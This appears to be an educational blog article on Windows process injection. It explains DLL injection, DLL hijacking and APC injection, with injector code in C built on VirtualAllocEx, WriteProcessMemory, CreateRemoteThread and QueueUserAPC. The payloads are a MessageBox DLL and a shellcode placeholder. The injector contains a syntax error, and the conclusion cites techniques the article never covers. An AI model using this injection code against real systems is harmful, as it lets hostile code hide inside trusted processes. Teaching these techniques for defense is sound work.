



## Malware Injection in Window Operating System 101

In the modern cybersecurity, the most dangerous threats are the ones you can not see. Instead of running as easily detectable standalone files, several malwares are able to hide in plain sight by injecting malicious code directly into trusted and legitimate Windows processes. This is a reason why OS get hard to detect them.

## What is Injection?

In the highly contested domain of modern cybersecurity, the ability of a threat actor to execute malicious instructions while circumventing endpoint detection mechanisms remains a paramount tactical objective. The concept of "injection" within this context refers to a sophisticated class of defense evasion and privilege escalation techniques wherein malicious code, or an entire payload, is forcibly inserted and executed within the virtual address space of a separate, actively running, and benign process. Classified under the MITRE ATT&CK framework primarily as technique T1055 (Process Injection), this methodology represents a foundational component of advanced persistent threat (APT) and fileless malware operations.  


At its architectural core, process injection fundamentally alters the control flow of a target application. Instead of executing a hostile binary directly—which would immediately register as a new, untrusted process creation event within security telemetry—the attacker utilizes an initial "injector" process to transplant code into a "target" process. Once the code is successfully transplanted, the injector coerces the target to execute the foreign instructions on its behalf. This execution by proxy grants the malicious payload multiple strategic advantages.   

The primary advantage is profound stealth. By executing from within the context of a highly trusted system utility—such as explorer.exe, svchost.exe, or standard web browsers like chrome.exe—the malicious activity blends seamlessly into the ambient noise of normal operating system operations. Security monitoring software, including rudimentary antivirus solutions and application whitelisting controls, typically focuses on the originating executable file on disk. When the hostile code resides exclusively in the volatile memory (RAM) of a whitelisted application, disk-based forensics and signature scanners are rendered largely ineffective.   

Furthermore, the injected code inherently inherits the security permissions, network access capabilities, and access tokens of the compromised host process. This facilitates seamless privilege escalation and access to restricted operating system components. For instance, an adversary might inject code into a browser process to establish an outbound command and control (C2) network connection. To an Endpoint Detection and Response (EDR) sensor, this appears as normal browser behavior rather than an anomalous network connection originating from an unknown binary. Conversely, injecting into the Local Security Authority Subsystem Service (lsass.exe) is a ubiquitous technique utilized for credential theft, as the host process natively possesses the necessary system-level privileges to access encrypted password hashes.


While injection is predominantly discussed in the context of Windows environments due to the operating system's permissive API architecture, the conceptual framework extends across platforms, albeit with greater restrictions. The MITRE ATT&CK framework designates T1631 as the process injection technique for mobile platforms such as Android and iOS. However, unlike Windows, mobile operating systems typically lack legitimate architectural pathways for cross-process memory manipulation, meaning mobile injection exclusively relies on exploiting underlying software vulnerabilities or abusing existing root-level access.   

It is essential to recognize that process injection is not exclusively the domain of threat actors. The underlying mechanisms rely on highly documented, deeply integrated operating system Application Programming Interfaces (APIs) that are frequently utilized by legitimate, commercial software. Antivirus engines utilize injection to place monitoring hooks into user applications; performance profilers use it to gather execution metrics; and aggressive video game anti-cheat engines, such as BattlEye and Easy Anti-Cheat (EAC), rely heavily on kernel and user-mode injection to actively monitor player environments for unauthorized modifications. This dual-use nature of memory manipulation complicates the defensive paradigm, as security engineers must design telemetry that distinguishes between a benign anti-cheat overlay and a hostile remote access trojan attempting to subvert system integrity.   

### The Architectural Foundation of Windows Memory and Execution
To comprehend the mechanics of process injection, one must first analyze the fundamental architecture of process and thread management within the Microsoft Windows environment. A process is not synonymous with a running program; rather, it serves as an isolated container of execution. Each process is allocated a private virtual address space, object handles, loaded modules, and a distinct security context.   

Within this container, the operating system maintains the Process Environment Block (PEB), a critical data structure residing in user-mode memory. The PEB stores essential metadata governing the process's execution, including the image base address, heap information, and a doubly linked list of all loaded dynamic-link libraries (DLLs). Because the PEB operates in user space rather than protected kernel space, it is highly susceptible to manipulation. Advanced injection techniques frequently target the PEB to dynamically resolve API addresses, unlink malicious modules to hide them from security tools, or alter execution flags.   

The actual execution of instructions is handled by threads, which reside within the process container. A process must contain at least one primary thread, but often contains dozens. Each thread possesses a Thread Environment Block (TEB), maintaining thread-specific variables such as exception handlers, Thread Local Storage (TLS), and the memory addresses of the thread's stack base. The vulnerability that enables injection lies in the shared nature of process memory: all threads within a single process share the identical virtual address space. Consequently, if an external process can obtain a handle with sufficient privileges to write into a target's memory space, it can insert arbitrary instructions that any thread within that process can be coerced to execute.   

---

## DLL Injection

DLL injection is a technique where one process (the injector) forces another running process (the target) to load a DLL that the target was never designed to load, so that arbitrary code can run inside the target’s address space with its privileges. At a high level, the injector first opens a handle to the target process, then allocates memory inside that process with VirtualAllocEx, writes either the DLL path or shellcode into that memory using WriteProcessMemory, and finally starts a new thread in the target with CreateRemoteThread (or similar APIs) whose entry point is typically LoadLibraryA/W, passing the address of the DLL path as the parameter. When that remote thread executes LoadLibrary, Windows’ loader maps the specified DLL into the target process, resolves its imports, and automatically calls the DLL’s entry point function DllMain with the reason code DLL_PROCESS_ATTACH, which lets the injected code initialize itself and immediately start manipulating the target process (for example, hooking functions, reading or modifying memory, or changing control flow). More advanced variants, such as reflective DLL injection or manual mapping, skip the regular LoadLibrary APIs and instead copy a DLL image directly into the target’s memory and perform the loader’s work manually (parsing headers, fixing relocations, resolving imports, then jumping to the entry point), which makes the injection stealthier and harder for security products to detect because no standard loader calls and often no on-disk DLL file are involved.

Basic DLL injection via *CreateRemoteThread* also follows a clear sequence:

**Step 1: Open the Target Process**

Use **[OpenProcess](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess)** to obtain a handle to the target process with read, write, and execute privileges.


**Step 2: Get the Address of LoadLibraryA**

Retrieve the address of the **[LoadLibraryA](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya)** function from kernel32.dll. Since kernel32.dll is loaded at the same base address in every process within the same session, this address is valid in the target process as well.


For instance : 
```
GetProcAddress(GetModuleHandleA("kernel32.dll"), "LoadLibraryA").
```

**Step 3: Allocate Memory in the Target Process**

After abusing **[OpenProcess](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess)** function, the program will use **[VirtualAllocEx()](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)** to allocate a block of memory inside the target process.


*For example* : 
```
VirtualAllocEx(
hProcess, 
NULL, 
llPathLen, 
MEM_COMMIT | MEM_RESERVE, 
PAGE_READWRITE
);
```

**VirtualAlloc `flAllocationType` flags**

**Allocation-type flags (required – choose one main type)**

| Flag              | Value       | Short purpose                             | Key details |
|-------------------|------------|-------------------------------------------|-------------|
| `MEM_COMMIT`      | `0x00001000` | Commit already reserved pages             | Charges commit from RAM/pagefile; physical pages are only allocated on first access and are zero-initialized; can be combined with `MEM_RESERVE` (`MEM_COMMIT | MEM_RESERVE`) to reserve and commit in a single call; committing a range with `MEM_COMMIT` and non-NULL `lpAddress` fails with `ERROR_INVALID_ADDRESS` if that entire range was not reserved beforehand; committing an already committed page does not fail. |
| `MEM_RESERVE`     | `0x00002000` | Reserve address space, do not back with RAM | Reserves a range of the process’s virtual address space without allocating physical RAM or pagefile space; reserved pages must later be committed with `MEM_COMMIT` before use; other allocators such as `malloc` / `LocalAlloc` cannot use this reserved range until it is released. |
| `MEM_RESET`       | `0x00080000` | Hint that the data is no longer needed     | Marks pages in the specified range as not interesting so they do not need to be read from or written to the paging file; pages remain committed and can be reused later; cannot be combined with any other allocation flag; does not guarantee the memory will contain zeros—use decommit + recommit if you need zero-fill; `flProtect` is ignored but must still specify a valid protection; fails if the range is mapped to a file (except paging-file backed views). |
| `MEM_RESET_UNDO`  | `0x01000000` | Attempt to undo a previous `MEM_RESET`     | Must only be used on an address range where `MEM_RESET` previously succeeded; indicates that the data is interesting again and attempts to restore it; success means all data in the range is intact, failure means at least some data has been replaced with zeros; cannot be combined with other flags; supported starting with Windows 8 / Windows Server 2012. |

**2. Modifier flags (optional – OR together with a main flag)**

| Flag              | Value       | Use together with                     | Short purpose            | Key details |
|-------------------|------------|---------------------------------------|--------------------------|-------------|
| `MEM_LARGE_PAGES` | `0x20000000` | `MEM_RESERVE` and `MEM_COMMIT` (both required) | Allocate using large pages | Uses the system’s large-page support; size and base address must be multiples of the large-page minimum (see `GetLargePageMinimum`); requires appropriate privileges and valid protection; memory is reserved and committed using large pages. |
| `MEM_PHYSICAL`    | `0x00400000` | `MEM_RESERVE` only                    | Reserve region for AWE    | Reserves an address range that will be used to map Address Windowing Extensions (AWE) physical pages; must not be combined with `MEM_COMMIT` or other allocation flags; page protection must typically be `PAGE_READWRITE` when mapping. |
| `MEM_TOP_DOWN`    | `0x00100000` | Any allocation type (e.g., with `MEM_RESERVE`, `MEM_COMMIT`) | Allocate from highest possible address | Requests that the system allocate memory at the highest possible address in the process virtual address space; can be slower than the default bottom‑up allocation strategy, especially when many allocations exist. |

**Step 4: Write the DLL Path into the Allocated Memory**

Use **[WriteProcessMemory()](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)** to copy the full file path of the DLL into the memory 
allocated in Step 3.


Example : ``WriteProcessMemory(hProcess, allocatedMem, dllPath, dllPathLen, NULL)``

**Step 5: Create a Remote Thread to Execute LoadLibrary**

Last but not least, the technique uses **[CreateRemoteThread()](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)** to spawn a new thread in the target process. That thread's start routine is LoadLibraryA, and its parameter is the pointer to the DLL path written in Step 4.

For instance : 
```
CreateRemoteThread(
    hProcess, NULL, 0, 
    (LPTHREAD_START_ROUTINE)loadLibAddr, 
    allocatedMem, 0, NULL)
```

Once the remote thread runs, `LoadLibraryA` loads the DLL, which triggers `DllMain` with *DLL_PROCESS_ATTACH*, executing the injected code.

**DLL malicious file**
```
BOOL APIENTRY DllMain(HINSTANCE hInst, 
DWORD reason, LPVOID reserved) {
    switch (reason) {
        case DLL_PROCESS_ATTACH:
            MessageBoxA(
                NULL,
                "DLL Injected Successfully!",
                "Injection Alert",
                MB_OK | MB_ICONINFORMATION
            );
            break;
        case DLL_PROCESS_DETACH:
        case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
            break;
    }
    return TRUE;
}
```

**Malicious Code**

```
// "malicious" DLL: our messagebox
char maliciousDLL[] = "C:\\Users\\<youruser>\\Documents\\Temp\\evil.dll";
unsigned int dll_length = sizeof(maliciousDLL) + 1;

int main(int argc, char* argv[]) {
  
  FARPROC LibAddr = GetProcAddress(GetModuleHandle("Kernel32");, "LoadLibraryA");

  // Print the target process ID
  printf("Target Process ID: %i", atoi(argv[1]));
  
  HANDLE process_handle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, (DWORD)atoi(argv[1]));

  // Allocate memory in the target process 
  PVOID remote_buffer = VirtualAllocEx(process_handle, NULL, dll_length, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

  // Copy DLL from our process to the remote process
  WriteProcessMemory(process_handle, remote_buffer, maliciousDLL, dll_length, NULL);

  // Create a remote thread in the target process to start our "malicious" DLL
  HANDLE remote_thread = CreateRemoteThread(process_handle, NULL, 0, (LPTHREAD_START_ROUTINE)LibAddr, remote_buffer, 0, NULL);
  
  CloseHandle(process_handle);

  return 0;
}

```
---

## DLL Hijacking

In stark contrast to the direct memory manipulation techniques of injection, DLL Hijacking is a subversion of the operating system's logical file system and application loading architecture. It is not a method of forcing an actively running process to execute arbitrary memory; rather, it is a technique that tricks a legitimate application into voluntarily loading a malicious binary during its natural startup or execution phase, mistaking it for a required, legitimate library. This technique is widely utilized for long-term persistence, defense evasion, and local privilege escalation.   

**Documents** : 
```
https://unit42.paloaltonetworks.com/dll-hijacking-techniques/
https://www.sentinelone.com/cybersecurity-101/cybersecurity/process-injection/
https://unit42.paloaltonetworks.com/dll-hijacking-techniques/
```
### The Windows DLL Search Order

**LoadLibrary and “ambiguous” names**

When code calls LoadLibrary("example.dll"), the loader only knows the filename, not where it lives.
That forces Windows to run its DLL search logic, step by step, until it finds a matching file.

If an attacker can put a fake example.dll in a location the loader checks before the real one, the app will load the attacker’s DLL instead, but under the expectation that it is trusted code.

**Pre‑search: logical redirections and caches**

Before walking folders on disk, Windows tries several logical / virtual mechanisms:

DLL redirection (.local, app‑local) – Lets a program say “load my copy from here, not the system one”, usually for private or side‑by‑side versions.

API Sets – Logical DLL names like api-ms-win-core-... that are mapped internally to real underlying DLLs; this isolates apps from physical DLL layout changes.

Side‑by‑Side (SxS) manifests – XML manifests describe exact assembly versions in the WinSxS store so that different apps can use different versions of the same DLL without conflict.

Already loaded modules / KnownDLLs – If the DLL is already mapped in the process or listed in the KnownDLLs cache, the loader reuses that image directly, which both improves performance and makes it harder to replace core OS DLLs.

**Safe DLL Search Mode**

Safe DLL Search Mode changes priority between user‑controlled locations and system locations:

With it enabled (default today), critical system folders are consulted before the process’s current working directory.

Without it, the current directory would come very early, which is dangerous if the app runs inside an attacker‑controlled folder.

This one change closes a whole class of trivially exploitable “drop a DLL next to the document/exe” attacks, but it does not remove the attack surface completely.

**Physical directory search (typical unpackaged app, Safe Mode on)**

Once logical redirections fail, the loader starts checking real directories in a fixed order (simplified):



**Where the hijack really happens**

The attacker first drops a malicious file named x.dll into the application’s directory, while the legitimate x.dll is still located in ``C:\Windows``. When the program runs and calls ``LoadLibrary("x.dll")`` without a full path, Windows follows its normal search order and checks the application’s directory before Windows. It finds the attacker’s ``x.dll`` there, assumes it is the correct library, and loads it into the process. As a result, the malicious DLL code runs inside the program instead of the clean system DLL, which is exactly the DLL hijacking situation.



---

## APC code Injection

APC stands for *Asynchronous Procedure Call*, which is a queued function call. It is a Windows mechanism that lets you schedule a function to run in the context of a specific thread. However, the call does not happen immediately; it is queued for later. The function will only run when that thread enters an "alertable state," such as during SleepEx or WaitForSingleObjectEx. Think of it like attaching a function to a thread and telling it to run the code the next time it pauses and wakes up.


APC code injection is a simple form of code injection that targets a newly created, suspended 64-bit process using this queue technique. Because of its nature, this technique is stealthy and is often used in malware or red team tools to inject and execute code.

**How It Works**

The basic execution flow of APC code injection usually consists of five main steps:

**[CreateProcessA](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa)**: Creates a new process (such as Notepad.exe) in a suspended state using the CreateProcess() function.





```
STARTUPINFO startupInfo = { sizeof(startupInfo) };

PROCESS_INFORMATION processInfo = { 0 };

HANDLE processHandle, threadHandle;

CreateProcessA("C:\\Windows\\System32\\notepad.exe",
  NULL, 
  NULL, 
  NULL, 
  FALSE, 
  CREATE_SUSPENDED, 
  NULL, 
  NULL,
  &startupInfo, 
  &processInfo
  );
```

**[Allocate Memory](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)**: Allocates memory inside that new process using the ``VirtualAllocEx()`` function.


```
VirtualAllocEx(TargetProcess, 
               NULL, 
               myPayloadLen, 
               MEM_COMMIT | MEM_RESERVE, 
               PAGE_EXECUTE_READWRITE);
```
**DWORD flAllocationType**

In the first example, *MEM_RESERVE* just reserves a block of virtual address space, then *MEM_COMMIT* later turns a part of that space into real, usable memory.

In the second example, *MEM_RESERVE | MEM_COMMIT* does both steps at once so you immediately get a buffer that is already backed by physical memory and ready to read/write/execute.

**DWORD  flProtect**

PAGE_EXECUTE_READWRITE is a memory protection flag that makes a region of memory readable, writable, and executable at the same time.

This is convenient for things like JIT compilers or shellcode buffers, but it is also considered dangerous because any code that can write to that memory can also run from it, which is why such regions are often treated as suspicious in malware analysis.

**[Write Payload](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)**: Writes a payload, typically shellcode, into that allocated memory using WriteProcessMemory().


**Pseudo Code**

```
WriteProcessMemory(processHandle, 
                   PayloadMem, 
                   Payload, 
                   myPayloadLen, 
                   NULL
);
```


**[Queue APC](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc)**: Queues that payload to run as an APC in the main thread of the suspended process using the QueueUserAPC() function.


**Pseudo Code**

```
//casts the payload memory address as a function

PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)PayloadMem;

//Uses APC (Asynchronous Procedure Call) to queue that function (your payload) to run on the suspended thread.

QueueUserAPC(
    (PAPCFUNC)apcRoutine, 
    threadHandle, 
    (ULONG_PTR)NULL);
```
**Execute**: Resumes the thread using ResumeThread() , which causes the injected payload to execute.


**Pseudo Code**
```
// Resume the suspended thread
ResumeThread(threadHandle);
```

**Full Pseudo Code was written on the Internet**
```
// Payload 
unsigned char myPayload[] = <shellcode>

int main() {
DWORD myPayloadLen = sizeof(myPayload);

// Create a 64-bit process:
STARTUPINFO startupInfo = { sizeof(startupInfo) };

PROCESS_INFORMATION processInfo = { 0 };

HANDLE processHandle, threadHandle;

CreateProcessA("C:\\Windows\\System32\\notepad.exe",  NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL,&startupInfo, &processInfo  );

// Allow time to start/initialize.
WaitForSingleObject(processInfo.hProcess, 30000);

processHandle = processInfo.hProcess;

threadHandle = processInfo.hThread;

// Allocate memory for payload
LPVOID  PayloadMem = VirtualAllocEx(processHandle, NULL, myPayloadLen, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

// Write payload to allocated memory
WriteProcessMemory(processHandle, PayloadMem, myPayload, myPayloadLen, NULL);

//casts the payload memory address as a function
PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)PayloadMem;   

//Uses APC (Asynchronous Procedure Call) to queue that function (your payload) to run on the suspended thread.
QueueUserAPC((PAPCFUNC)apcRoutine, threadHandle, (ULONG_PTR)NULL);        

// Resume the suspended thread
ResumeThread(threadHandle);
return 0;
}
```

---

## Conclusion
The comprehensive analysis of process injection, dynamic-link library hijacking, and asynchronous procedure call manipulations reveals a deeply entrenched technological arms race between offensive tradecraft and endpoint detection mechanisms. What originated as straightforward memory allocation and remote thread creation via documented APIs (Classic DLL Injection) has metamorphosed into the highly complex orchestration of operating system internals, encompassing in-memory Portable Executable parsing (Reflective Injection), the exploitation of the Windows OS loader sequences and environmental variables (DLL Search Order Hijacking), and the systemic abuse of file system transactional architectures (Process Doppelgänging, Herpaderping, and Ghosting).

The emergence of techniques such as Early Cascade Injection and Mockingjay highlights a clear strategic pivot by advanced threat actors. As security vendors refine their monitoring of traditional memory-allocating APIs like VirtualAllocEx and CreateRemoteThread, adversaries are increasingly pivoting toward the subtle subversion of native, trusted operating system behaviors. By leveraging legitimate user-mode initialization callbacks or exploiting inherently vulnerable, Microsoft-signed DLLs containing default Read/Write/Execute permissions, attackers are demonstrating an ability to bypass heuristic monitoring by operating entirely within the bounds of expected, legitimate system execution pathways.

Consequently, effective defense against process injection cannot rely upon static file identification or isolated API monitoring. It demands a holistic, kernel-integrated posture combining strict, hardware-backed memory policies (ACG, CFG, DEP), rigorous access control mechanisms rooted in the Principle of Least Privilege, and advanced behavioral telemetry. Only by correlating anomalous cross-process events, unexpected network connections originating from trusted binaries, and deep kernel-level execution tracking can organizations hope to identify the logical inconsistencies generated when a trusted system process is hollowed out and weaponized from within. As long as operating systems utilize dynamic-link libraries and shared virtual memory spaces to promote efficiency and modularity, the architectural surface area for process injection will persist, requiring relentless vigilance and continuous adaptation from the cybersecurity community.

---

Thanks for reading. If you have any questions, please contact to email : kajrivn@gmail.com

Author : **Katjri**